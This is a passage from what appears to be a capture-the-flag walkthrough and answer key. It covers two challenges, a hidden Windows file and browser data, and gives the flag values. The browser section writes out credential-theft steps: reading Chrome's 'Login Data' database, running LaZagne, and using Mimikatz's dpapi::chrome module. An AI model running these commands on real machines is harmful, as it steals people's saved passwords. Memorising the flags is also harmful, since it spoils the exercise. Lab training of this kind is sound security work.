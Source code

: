 
## FLAG 8: Hidden File (25 points - Medium)
**Location:** Hidden File  
**Flag:** FLAG{SANDSLASH22756452}

### Attack Method: Hidden File Discovery

```powershell
# Show hidden files
Get-ChildItem C:\WorkFiles -Force

# Or using attrib
attrib C:\WorkFiles\*

# Read hidden flag file
type C:\WorkFiles\.flag
```

**Screenshot Simulation:**
```
PS C:\> Get-ChildItem C:\WorkFiles -Force
Mode    LastWriteTime         Length Name
----    -------------         ------ ----
-a-h--  9/5/2025  10:00 PM        25 .flag

PS C:\> Get-Content C:\WorkFiles\.flag
FLAG{SANDSLASH22756452}
```

**Why:** Hidden files using dot notation or attributes are common hiding spots.

---

## FLAG 9: Browser Data (30 points - Medium)
**Location:** Browser Data  
**Flag:** FLAG{NIDOQUEEN75067246}

### Attack Method: Browser Credential Extraction

```powershell
# Navigate to Chrome profile
cd "$env:LOCALAPPDATA\Google\Chrome\User Data\Default"

# View Login Data (it's a SQLite database)
type "Login Data"

# Better approach: Use LaZagne
.\LaZagne.exe browsers

# Or use Mimikatz DPAPI module
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data"
```
